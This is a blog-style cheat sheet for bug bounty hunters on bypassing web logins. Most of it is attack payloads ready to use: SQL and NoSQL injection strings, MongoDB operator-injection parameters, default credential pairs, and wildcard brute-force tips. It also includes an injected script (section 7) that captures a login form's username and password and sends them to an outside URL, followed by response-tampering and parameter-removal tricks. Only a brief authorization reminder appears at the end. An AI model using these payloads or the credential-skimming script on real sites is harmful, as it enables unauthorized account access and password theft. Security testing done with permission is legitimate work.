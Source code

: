 ```yaml
---
title: <img width="50" height="50" alt="front-page port 80-shoopyu" src="https://i.ytimg.com/vi/9wNJE2zaEP8/maxresdefault.jpg"> Web Login Bypassing Techniques
date: 2023-05-29 00:00:02 +730
categories: [Resources, bugbounty]
tags: [bypass,bugbounty,web-login-bypass] # TAG names should always be lowercase
mermaid: true

---
```


# Web Login Bypassing Techniques for Bug Bounty Hunters: 😎🚀



Greetings, fellow bug bounty hunters! Are you ready to embark on a wild adventure of bypassing web login systems? Buckle up and prepare to witness some mind-boggling techniques that will make you go "Woah!" Let's dive into the chaos and unleash our hacking skills! 💥

```mermaid
flowchart LR
    A(Web Login Bypassing Techniques)
    B(SQL Injection)
    C(NoSQL Injection)
    D(Operator-Based Attacks)
    E(Default Credentials)
    F(Wildcard Brute Force)
    G(Registration as Existing User)

    A -->|Explore| B
    A -->|Unleash| C
    A -->|Manipulate| D
    A -->|Break Monotony| E
    A -->|Unleash Chaos| F
    A -->|Add Twist| G


```




## 1. SQL Injection: The Art of Database Mischief 🎭

Injecting SQL queries into login fields is our secret weapon! Here's a taste of the madness we can create:

```sql
- Microsoft, Oracle, PostgreSQL:
    - admin' or '1'='1
    - admin'--
    - admin' or 1=1--
    - admin' or '1'='1'--
    - admin}" or 1=1--

- MySQL:
    - admin'-- -
    - admin'#
    - admin' or 1=1#
    - admin' or 1=1-- -
    - admin' or '1'='1'-- -
    - admin' or '1'='1'#

- Let the chaos reign! 💥
```

[Get the whole cheet-sheet](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/login-bypass/sql-login-bypass.md)


## 2. NoSQL Injection: Unleashing Madness in NoSQL Realm 🐆

Who said NoSQL databases are immune to our hacking shenanigans? Brace yourselves for some NoSQL injection payloads:


```
- Mongo:

    - admin' || 1==1//
    - admin' || 1==1%00
    - admin' || '1==1
    - admin' || '1'=='1'
```


## 3. Operator-Based Attacks: Dancing with Operators 💃🎩

Operators hold the key to our login bypass extravaganza. Get ready to manipulate and conquer with these operator-based payloads:

```bash
- $ne (Not equal):
    - username[$ne]=xyz&password[$ne]=xyz

- $regex (Regular expressions):
    - username[$regex]=.*&password[$regex]=.*
    - username[$regex]=^xyz&password[$regex]=^xyz

- $exists (Exists in the database):
    - username[$exists]=true&password[$exists]=true

- $nin (Not include):
    - username[$nin][admin]=admin&password[$ne]=xyz

- $gt (Greater than) and $lt (Lower than):
    - username[$gt]=s&password[$gt]=s
    - username[$lt]=s&password[$lt]=s

- The operator symphony begins! 🎩🎶
```

## 4. Default Credentials: Breaking the "Admin:Admin" Monotony 🥱💤


![s](https://pbs.twimg.com/media/FA6ElwUXoAEZHYz.jpg){: .dark .w-75 .shadow .rounded-10 w='1212' h='668' }

Yawn! Default credentials are a bug bounty hunter's best friend. Let's shake things up with some unexpected username/password combos:

```bash
- admin:admin
- admin:password
- admin:password1
- admin:password123
- administrator:password
- administrator:password1
- administrator:password123

- Time to expose those default culprits! 😈🔑
```
[Default-passwords](https://datarecovery.com/rd/default-passwords/)


## 5. Wildcard Brute Force: Unleashing Chaos with Wildcard Magic! 🃏🔥

When wildcards (*) are allowed, the real fun begins! Brace yourselves for the epic wildcard brute force:

```bash
- username = *
- password

 = *

- Turbo Intruder in Burp Suite will be your trusty sidekick for this madness! 💪🦸‍♀️
```

## 6. Registration as Existing User: Adding a Twist to the Game 🎭🔑

Registering as an existing user? Let's spice it up with these variations:

- Register with the same username:
    - `admin`
    - `admin%00`
    - `(space)admin`

Go ahead and test these payloads using the registration form on the target website. Time to make the login system question its existence! 😜


>Some Additional tactics to bypaasssss!
{: .prompt-info }

## 7. CSRF via XSS and see the victims credentials. This is the CSRF payload for it 
```js
<script>
function intercept() {
 
 var user = document.forms[0].elements[0].value;
 var pass = document.forms[0].elements[1].value;
 
 
 var xhr = new XMLHttpRequest();
 
 xhr.open("GET", "https://your-target-url?username/email="+user+"&password="+pass)
 xhr.send();
return false;
 }
 document.forms[0].onsubmit = intercept;
 
</script>
```

## 8. By Manipulating the Response

This method mainly based on Response Status code manipulation and Response Body manipulation. 
- First of all make an account on your target 
- Login with correct credentials and intercepts request in burp suite and analyze the response 
- Try to login with wrong credentials and manipulate the response as you see it with your correct credentials like

```
403 Forbidden  
<redacted>  
{"error":true, "message":"Invalid Token"}
```
<br>

```
200 OK  
<redacted>  
{"success":true}
```
## 9. By Removing Parameter in Request

When you enter wrong credentials the site shows error like username and password is incorrect/does not match, password is incorrect for this username etc,

 - [ ] First you intercept the request and remove the `password parameter` in the request and `forward` the request. 
 - [ ] Then the server sees that the username is available and logs you in to the site. This problem occurs when the server does not analyze the request properly.

![1_gNdDHP3A232KT9R4BA1ERw](https://github.com/thelocalh0st/thelocalh0st.github.io/assets/125783410/7eb0b6bf-cfa5-4451-b294-d1a8acfb40a5)
![2](https://github.com/thelocalh0st/thelocalh0st.github.io/assets/125783410/38e32544-da62-4851-810d-9a50f826804e)

<br>
<br>



> **Important Note:** While these techniques can be used for legitimate security testing, always ensure that you have proper authorization and permission before attempting any login bypass or brute force attacks. Stay ethical, my friends! 🕵️‍♀️🔒
{: .prompt-tip }


![end](https://media.giphy.com/media/DAtJCG1t3im1G/giphy.gif)
